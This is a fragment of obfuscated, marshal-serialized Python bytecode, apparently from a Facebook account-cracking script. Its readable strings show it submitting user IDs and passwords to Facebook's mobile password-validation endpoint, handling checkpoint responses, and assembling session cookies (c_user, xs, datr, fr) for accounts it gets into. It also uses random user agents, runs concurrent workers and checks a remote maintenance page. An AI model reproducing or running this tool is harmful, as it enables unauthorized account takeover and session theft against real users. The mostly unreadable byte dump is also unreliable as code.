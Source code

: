 value="(.*?)"Z\x0clogin_no_pinz8https://developers.facebook.com/tools/debug/accesstoken/)\x06Z\x03lsdr^\x00\x00\x00Z\x03uidZ\x04flowZ\x04pass\xda\x04nextr6\x00\x00\x00r`\x00\x00\x00r8\x00\x00\x00rC\x00\x00\x00zChttps://m.facebook.com/login/device-based/validate-password/?shbl=0F)\x02rb\x00\x00\x00Z\x0fallow_redirectsZ\ncheckpointr+\x00\x00\x00Z\ndeep_pink3)\x01Z\x0bguide_styleu\x10\x00\x00\x00[bright_cyan]\xc3\x97 r\x98\x00\x00\x00r\x8d\x00\x00\x00rV\x00\x00\x00\xda\x01\nr2\x00\x00\x00z\x05datr=Z\x04datrz\x04;sb=Z\x02sbz\x08;c_user=z\x04;xs=Z\x02xsz\x04;fr=Z\x02fru\x12\x00\x00\x00[bright_green]\xe2\x9c\x93 z\x0f[/bright_green]r\x8c\x00\x00\x00\xe9\x1f\x00\x00\x00)#r\xc6\x00\x00\x00r{\x00\x00\x00r\xc7\x00\x00\x00ry\x00\x00\x00\xda\x04loopr\x9b\x00\x00\x00r\x9c\x00\x00\x00\xda\x02ok\xda\x02cp\xda\x06randomZ\x06choice\xda\x04ugen\xda\x05ugen2rr\x00\x00\x00rs\x00\x00\x00rS\x00\x00\x00rv\x00\x00\x00rw\x00\x00\x00\xda\x02re\xda\x06search\xda\x05groupr|\x00\x00\x00rT\x00\x00\x00Z\x08get_dictr\t\x00\x00\x00\xda\x03addr"\x00\x00\x00r#\x00\x00\x00r%\x00\x00\x00r\x80\x00\x00\x00r}\x00\x00\x00r~\x00\x00\x00r \x00\x00\x00r!\x00\x00\x00r\xbf\x00\x00\x00)\x0cZ\x03idsZ\x03owiZ\x02uaZ\x03ua2r\x82\x00\x00\x00Z\x02pw\xda\x01pZ\x05dataaZ\x02poZ\x02juZ\x05komkiZ\x06komki_r*\x00\x00\x00r*\x00\x00\x00r+\x00\x00\x00r\xc8\x00\x00\x00/\x01\x00\x00sB\x00\x00\x006\x02\n\x01\n\x01\x08\x01\x08\x01\x02\x01(\x01\x0c\x016\x01,\x01\x10\x01\x0e\x01\x0c\x01\x18\x01\n\x01\x08\x01\x1c\x01\x06\x01\x10\x01\n\x01<\x01\x0c\x01\x1e\x01\n\x01\x08\x01"\x01\x06\x01\x04\x01\x12\x01\x0e\x01\x02\xff\x08\x02\x0e\x01r\xc8\x00\x00\x00\xda\x08__main__z"https://sptty-chan.github.io/indexrU\x00\x00\x00\xda\x04bodyz\n\nsilahkan\nr\x0e\x00\x00\x00u\x10\x00\x00\x00\xe2\x80\xa2 Sc Maintence);r \x00\x00\x00r\x1d\x00\x00\x00r\x9e\x00\x00\x00\xda\nsubprocessrr\x00\x00\x00r\xd6\x00\x00\x00r\xd3\x00\x00\x00r"\x00\x00\x00Z\x03bs4r\x02\x00\x00\x00ru\x00\x00\x00Z\nrich.alignr\x03\x00\x00\x00Z\rrich.progressr\x04\x00\x00\x00r\x05\x00\x00\x00r\x06\x00\x00\x00r\x07\x00\x00\x00r\x08\x00\x00\x00Z\trich.treer\t\x00\x00\x00Z\x12concurrent.futuresr\n\x00\x00\x00r\xaf\x00\x00\x00r%\x00\x00\x00\xda\x07devnullZ\x03kenZ\x04callZ\x06STDOUTZ\x04ken2\xda\x05closer\x1e\x00\x00\x00r$\x00\x00\x00rq\x00\x00\x00r\x9c\x00\x00\x00r\x9d\x00\x00\x00r\xd1\x00\x00\x00r\xd2\x00\x00\x00r\xd0\x00\x00\x00r\xbb\x00\x00\x00r\xbc\x00\x00\x00r\xbd\x00\x00\x00r\xd4\x00\x00\x00r\xd5\x00\x00\x00r,\x00\x00\x00r(\x00\x00\x00r\x81\x00\x00\x00r\'\x00\x00\x00r\x92\x00\x00\x00r\xa4\x00\x00\x00r\xb1\x00\x00\x00r\xb2\x00\x00\x00r\xc8\x00\x00\x00\xda\x08__name__rv\x00\x00\x00rw\x00\x00\x00Z\x02yyrz\x00\x00\x00r\x7f\x00\x00\x00r*\x00\x00\x00r*\x00\x00\x00r*\x00\x00\x00r+\x00\x00\x00\xda\x08<module>\x01\x00\x00\x00sR\x00\x00\x00H\x00\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x0c\x01\x16\x01\x08\x01\x12\x01\n\x01\x04\x01\x04\x01\x04\x01\x04\x01\x04\x01\x04\x01\x04\x01\x04\x01\x08\x01\x08\x01\x08\x01\x08\t\x08-\x08*\x08*\x085\x08\r\x08\r\x08<\x08"\x12\x01\x10\x01\n\x01\n\x02\x0c\x01\x04\xfa'))
